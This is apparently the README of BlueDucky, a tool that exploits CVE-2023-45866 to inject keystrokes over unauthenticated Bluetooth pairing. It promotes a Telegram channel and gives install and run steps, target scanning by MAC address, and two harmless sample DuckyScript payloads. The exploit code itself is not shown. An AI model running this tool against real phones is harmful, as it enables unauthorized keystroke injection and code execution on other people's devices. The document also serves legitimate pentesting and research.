

# BlueDucky 🦆 Version-0
Ported & Optimized for Kali Linux by Hackwithakki

Welcome dear HACK3RS 
Make sure to join us on Telegram ! 
Visit Here -[🎭 https://t.me/hackwithakki 🎭](https://t.me/hackwithakki)

🔹 Credits to the original contributors:

 ᯓ➤[saad0x1 on GitHub]
 
 ᯓ➤[spicydll on GitHub]

<p align="center">
  
</p>

🚨 CVE-2023-45866 - Exploitation via DuckyScript 🦆

🔓 Unauthenticated Bluetooth Peering ᯓ➤Remote Code Execution (Using HID Keyboard)

[This tool is based on the vulnerability Discovered by Marc Newlin CVE-2023-45866](https://github.com/marcnewlin/hi_my_name_is_keyboard)

⚠️ This version has been customized and optimized specifically for Kali Linux by Hackwithakki, to ensure better stability and seamless integration in pentesting environments.

<p align="center">
  
</p>

## Introduction 📢
🧠 What is BlueDucky?

╰┈➤ BlueDucky is a powerful linux based tool for wireless HID Attack through Bluetooth. By running this Duckyscript, you can:

ᯓ➤ 📡Reconnect with previously paired Bluetooth devices (even if not visible) but have Bluetooth still enabled.

ᯓ➤ 📂 Automatically save devices to reuse.

ᯓ➤ 💌 Execute HID keystroke payloads via DuckyScript.

✔️ Tested and stable on a Raspberry Pi 4 using the default Bluetooth module 

✔️ It works against various phones. 

⚠️ Note: Vodafone New Zealand brand may behave differently

## Installation and Usage 🛠️

### Setup Instructions for Debian-based 

```bash
1️⃣ # update apt
ᯓ➤ sudo apt-get update && sudo apt-get -y upgrade

2️⃣ # install dependencies from apt
ᯓ➤ sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus

3️⃣ # install pybluez from source
ᯓ➤ git clone https://github.com/pybluez/pybluez.git
     cd pybluez
     sudo python3 setup.py install

4️⃣ # build bdaddr from the bluez source
ᯓ➤ cd ~/
     git clone --depth=1 https://github.com/bluez/bluez.git
     gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
     sudo cp bdaddr /usr/local/bin/
```
### Setup Instructions for Arch-based 

```bash
1️⃣ # update pacman & packages
 ᯓ➤ sudo pacman -Syyu

2️⃣ # install dependencies
  # since arch doesnot separate lib packages: libbluetooth-dev included in bluez package
 ᯓ➤ sudo pacman -S bluez-tools bluez-utils bluez-deprecated-tools \
               python-setuptools python-pydbus python-dbus
               git gcc python-pip \

3️⃣ # install pybluez from source
 ᯓ➤ git clone https://github.com/pybluez/pybluez.git
       cd pybluez
       sudo python3 setup.py install

4️⃣ # build bdaddr from the bluez source
 ᯓ➤ cd ~/
       git clone --depth=1 https://github.com/bluez/bluez.git
       gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
       sudo cp bdaddr /usr/local/bin/
```

## ▶️ How to Run BlueDucky
```bash
ᯓ➤ git clone https://github.com/hackwithakki/BlueDucky.git
ᯓ➤ cd BlueDucky
ᯓ➤ sudo hciconfig hci0 up
ᯓ➤ sudo python3 BlueDucky.py
```

alternatively,

```bash
ᯓ➤ pip3 install -r requirements.txt
```

## ⚙️ How it Works Operational Steps 🕹️
ᯓ➤ After starting, it prompts for the target MAC address.

ᯓ➤ Leave it blank to start auto-scanning.

ᯓ➤ Devices previously found are stored in known_devices.txt.

ᯓ➤ If that file exists,and checks this file before scanning. it’s used as a device cache

ᯓ➤ The script executes using payload.txt file.

ᯓ➤ Successful execution will auto-connects and executes keystrokes.

## Duckyscript 💻
🚧 Work in Progress:
- Suggest me ideas

## Version 0 🦠ᯓᡣ𐭩
- Updated UI
- Improved User Experience
- Bluetooth Debugger; Checks your bluetooth ON, and installed dependancies before allowing access to the application,
- this is to prevent devices that are not supported.
- Please Note: Numerous Changes have been made,please reference the commit history for specific changes.
  
## What's Planned for the Release?
🛡️ Notes from Hackwithakki

✅ Stable & fully optimized for Kali Linux

🧠 Ideal for pentesters and researchers

🐧 Works great on Kali, Raspberry Pi, and similar platforms

ᯓᡣ𐭩 Suggest What Should be added next! Join🔗 [https://t.me/hackwithakki](https://t.me/hackwithakki)

#### 📝 Example payload.txt:
```bash
REM Title of the payload
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()_-=+\|[{]};:'",<.>/?
GUI D
```

```bash
REM Opens a private browser to a specific Instagram profile
DELAY 200
ESCAPE
GUI d
ALT ESCAPE
GUI b
DELAY 700
REM PRIVATE_BROWSER is equal to CTRL + SHIFT + N
CTRL SHIFT n
DELAY 700
CTRL l
DELAY 300
STRING https://www.instagram.com/hackwithakki/
DELAY 300
ENTER
DELAY 300
```

## Enjoy experimenting with BlueDucky! 🌟


